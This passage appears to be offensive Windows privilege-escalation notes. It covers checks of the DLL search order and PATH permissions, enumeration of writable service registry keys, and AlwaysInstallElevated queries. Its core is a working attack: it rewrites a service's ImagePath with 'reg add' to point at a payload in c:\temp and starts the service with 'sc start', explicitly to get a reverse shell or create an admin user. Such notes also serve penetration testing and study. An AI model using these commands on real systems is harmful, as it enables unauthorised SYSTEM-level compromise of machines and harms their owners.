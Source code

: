 Safe Mode Check:

```
reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager" /v SafeDllSearchMode
```
**Standard Search Order** (Safe DLL Search Mode enabled):
    1. Directory of the application.
    2. System directory. (C:\Windows\System32)
    3. 16-bit system directory. (C:\Windows\System)
    4. Windows directory. (C:\Windows)
    5. Current directory.
    6. Directories in the PATH environment variable.
    
    ($env:Path -split ';'|sort -u|%{ $_.Trim('"') })|%{icacls $_}
    
    
- When Safe DLL Search Mode is disabled, the current directory moves up to the second position, making it easier to exploit.

Check all running processes DLLs loaded:
```
Get-Process | Select-Object Name,Id,Path,Modules (Get-Process -Name notepad).Modules | Select-Object Name,FileName

Get-CimInstance -ClassName Win32_Process | Select-Object Name,ProcessId,ExecutablePath
```

If there is an Executable that seems phishy you should grab it and run it locally to check which DLLs are loaded: (Process Monitor)


### Registry Keys

Check registry keys we can modify (Services are interesting since they are ran as SYSTEM Accounts: HKLM\System\CurrentControlSet\Services):

```powershell
accesschk64.exe -w -v "HKLM\\System\\CurrentControlSet\\Services"

Get-ChildItem -Path HKLM:\\Software\\ -Recurse -ErrorAction SilentlyContinue
Get-Acl -Path hklm:\\System\\CurrentControlSet\\services\\regsvc | fl
```

After verifying we have access to modify this registry key, modify it and start it with a malicious payload (get reverse shell or create user and add to admin group):

```powershell
reg add HKLM\\SYSTEM\\CurrentControlSet\\services\\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\\temp\\x.exe /f

sc start regsvc
```

### AlwaysInstallElevated

```
Get-RegistryAlwaysInstallElevated   -   PowerUp checks if the AlwaysInstallElevated registry key is set

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
